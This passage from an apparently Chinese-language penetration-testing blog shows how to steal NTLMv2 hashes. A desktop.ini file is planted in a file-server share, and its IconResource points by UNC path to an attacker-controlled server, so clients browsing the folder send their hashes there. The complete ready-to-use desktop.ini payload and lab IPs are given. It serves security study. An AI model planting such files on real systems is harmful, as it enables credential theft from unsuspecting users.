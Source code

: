 [《Windows下的密码hash——NTLM hash和Net-NTLM hash介绍》](https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D/)

[《渗透技巧——利用netsh抓取连接文件服务器的NTLMv2 Hash》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8netsh%E6%8A%93%E5%8F%96%E8%BF%9E%E6%8E%A5%E6%96%87%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTLMv2-Hash/)

经过实际测试，我们可以看到，利用的关键是要在文件服务器上添加scf文件，等待用户访问

那么，有没有更为隐蔽的方法呢？

## 0x04 修改文件夹图标强制用户访问伪造的文件服务器
---

参考scf文件的利用原理，需要找到可以指定IconFile属性的特殊文件

经过寻找，我找到了一个合适的方法： `修改文件夹图标强制用户访问伪造的文件服务器`

### 修改文件夹图标的方法：

选中`文件夹`-`右键`-`属性`-`自定义`-`更改图标`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/2-2.png)

更好后，在文件夹子目录生成文件desktop.ini，格式如下：

```
[.ShellClassInfo]
IconResource=C:\Windows\system32\SHELL32.dll,3
[ViewState]
Mode=
Vid=
FolderType=Generic
```

尝试将IconResource属性替换为UNC路径，路径为`IconResource=\\192.168.62.130\test\SHELL32.dll,3`

测试成功

### 实际测试：

正常文件服务器IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

客户端IP： 192.168.62.135

#### 1、正常文件服务器共享目录的test文件夹下添加文件desktop.ini，内容如下：

```
[.ShellClassInfo]
IconResource=\\192.168.62.130\test\SHELL32.dll,4
[ViewState]
Mode=
Vid=
FolderType=Generic

```
